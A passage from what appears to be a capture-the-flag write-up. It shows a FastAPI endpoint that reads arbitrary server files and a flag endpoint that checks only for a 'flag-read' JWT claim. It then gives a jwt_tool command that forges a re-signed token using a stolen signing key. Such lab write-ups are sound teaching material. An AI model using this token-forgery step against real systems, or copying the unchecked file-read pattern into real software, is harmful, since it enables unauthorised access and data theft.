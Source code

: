 ```python

@router.post("/file", status_code=200)
def get_file(
        file_in: GetFile,
        current_user: User = Depends(deps.parse_token),
        db: Session = Depends(deps.get_db)
) -> str:
    """
    Returns a file on the server
    """
    if not current_user['admin']:
        return {"msg": "Permission Error"}
    try:
        with open(file_in.file) as f:
            output = f.read()
            return {"file": output}
    except:
        raise HTTPException(status_code=404, detail="File not found")


@router.put("/getFlag", status_code=200)
def get_flag(current_user: User = Depends(deps.parse_token)) -> Any:
    """
    The Flag
    """
    if not current_user['admin']:
        return {"msg": "Permission Error"}

    if "flag-read" not in current_user.keys():
        raise HTTPException(status_code=400, detail="flag-read key missing from JWT")

    flag = requests.get('http://flagship:8000').text
    return {"Flag": flag}
```

We see that it really just checks the presence of the `flag-read` key in the token and nothing else. With the signing
key already retrieved, we should now be able to modify the token, add the required `flag-read` key to the payload (e.g.
with value of `true`, but it does not really matter) and re-sign it.

```console
$ ./jwt_tool.py $admintoken -I -pc flag-read -pv true -S rs384 -pr jwtsigning.key
```


[jwt_tool]: https://github.com/ticarpi/jwt_tool
[ModHeader]: https://chrome.google.com/webstore/detail/modheader-modify-http-hea/idgpnmonknjnojddfkpgkljpfnnfcklj